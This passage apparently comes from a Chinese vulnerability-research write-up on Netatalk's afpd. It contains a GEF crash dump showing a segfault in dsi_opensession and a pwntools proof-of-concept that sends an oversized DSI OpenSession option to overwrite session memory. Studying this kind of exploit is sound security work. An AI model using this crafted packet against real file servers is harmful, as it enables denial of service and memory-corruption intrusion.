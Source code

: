 ```python
$r10   : 0x25              
$r11   : 0x293             
$r12   : 0x0000563fcd14a8b0  →  0x0000563fcd14a9f0  →  0x0000000000000000
$r13   : 0x1e              
$r14   : 0x00007ffce77c8940  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
──────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffce77c8840│+0x0000: 0x0000000000000000	 ← $rsp
0x00007ffce77c8848│+0x0008: 0x00007f863b486c63  →  <dsi_getsession+467> mov QWORD PTR [r14], 0x0
0x00007ffce77c8850│+0x0010: 0x0000000000000000
0x00007ffce77c8858│+0x0018: 0x0000000600000005
0x00007ffce77c8860│+0x0020: 0x0000000000000000
0x00007ffce77c8868│+0x0028: 0x0000000000000000
0x00007ffce77c8870│+0x0030: 0x0000000000000000
0x00007ffce77c8878│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f863b486fad <dsi_opensession+125> mov    eax, DWORD PTR [rbx+0x6d8]
   0x7f863b486fb3 <dsi_opensession+131> bswap  eax
   0x7f863b486fb5 <dsi_opensession+133> mov    DWORD PTR [rbx+0x6d8], eax
 → 0x7f863b486fbb <dsi_opensession+139> movzx  eax, BYTE PTR [rcx+r9*1]
   0x7f863b486fc0 <dsi_opensession+144> lea    esi, [rdx+rax*1+0x2]
   0x7f863b486fc4 <dsi_opensession+148> cmp    rsi, QWORD PTR [rbx+0x106f8]
   0x7f863b486fcb <dsi_opensession+155> mov    rdx, rsi
   0x7f863b486fce <dsi_opensession+158> jb     0x7f863b486f80 <dsi_opensession+80>
   0x7f863b486fd0 <dsi_opensession+160> mov    QWORD PTR [rbx+0x106f8], 0xc
────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "afpd", stopped 0x7f863b486fbb in dsi_opensession (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f863b486fbb → dsi_opensession()
[#1] 0x7f863b486c63 → dsi_getsession()
[#2] 0x563fcc883645 → main()
───────────────────────────────────────────────────────────────────────────────────────────
0x00007f863b486fbb in dsi_opensession () from ./libatalk.so.18
gef➤
```

死因很明显，对rcx(0x6161616161616161)这个非法地址解引用了。接下来定位一下我们覆盖的目标结构体在哪：

```python
from pwn import *
context(endian='big',log_level='debug')
io = remote("127.0.0.1",5566)

cmd  = b'\x01'+ p8(0xc)+ b'a'*0x8+'xuan'
dsi  = b'\x00\x04\x00\x01' 
dsi += p32(0)
dsi += p32(len(cmd)) 
dsi += p32(0)
dsi += cmd

io.send(dsi)
io.recv()
```
